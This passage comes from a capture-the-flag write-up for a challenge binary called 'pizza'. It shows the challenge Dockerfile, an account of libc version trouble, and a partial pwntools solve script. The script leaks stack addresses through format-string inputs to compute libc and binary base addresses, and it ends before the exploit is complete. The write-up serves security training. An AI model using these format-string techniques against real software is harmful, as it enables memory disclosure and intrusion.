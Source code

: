 But lets digress a bit and talk about libc. In order to exploit this, we'll need to know what version of system to call on remote and thus what libc version the remote binary is running. Thankfully, we were provided with a docker container so we know what image the remote binary is running in. In this case, our dockerfile looks like the following: 

```dockerfile
FROM pwn.red/jail
COPY --from=debian@sha256:36a9d3bcaaec706e27b973bb303018002633fd3be7c2ac367d174bafce52e84e / /srv
COPY pizza /srv/app/run
COPY flag.txt /srv/app/flag.txt
RUN chmod 755 /srv/app/run
```
To pull the libc, we can build that debian image, exec into it, and pull the libc. That is what sane people would do. Old me built the image, used `docker save` to extract the layers, and then went searching for anything resembling a libc. I managed to find one too, only it was the wrong one and it took me about an hour of troubleshooting to figure out why I couldn't calculate the base addresses properly on remote. Turns out that I pulled a libc with the designation `2.36-9` and the proper libc from that debian image was a special debian one, also version `2.36`. On an unrelated note, that new libc didn't play nice with pwninit and would cause my newly patched binary to immediately segfault! Yay! Thankfully the wrong version, `2.36-9` could be used and the symbols were the same, just the offsets were different. I used that version for local debugging and then when I went to exploit on remote I used the proper debian one. 

Digression over, lets look at our solve script so far. 

```python
from pwn import *
from pwnlib.fmtstr import FmtStr, fmtstr_split, fmtstr_payload

elf = context.binary = ELF("pizza_patched")
libc = ELF('libc-remote.so.6')
context.terminal = ['tmux', 'split-window', '-h']

# libc_start_call_main + 128 at 47
# main @ 49
# __libc_start_main + 128 @ 67
# fmtstr offset at 31
p = elf.process()
#p = remote("chall.lac.tf", 31134)
script = '''
init-pwndbg
break *(main + 456)
'''
gdb.attach(p, script)

p.sendlineafter(b'> ', b'12')
p.sendlineafter(b'topping: ', "%67$p")
#print(p.recvline())

p.sendlineafter(b'> ', b'12')
p.sendlineafter(b'topping: ', b'%49$p')

p.sendlineafter(b'> ', b'12')
p.sendlineafter(b'topping: ', b'aaaaaaaa%31$p')

p.recvline()

libc_start_main = p.recvline()
libc_start_main = int(libc_start_main.strip(b'\n').decode(), 16) - 133

main = p.recvline()
main = int(main.strip(b'\n').decode(), 16)
main_offset = 0x0000000000001189
elf.address = main - main_offset
print(p.recvline())
```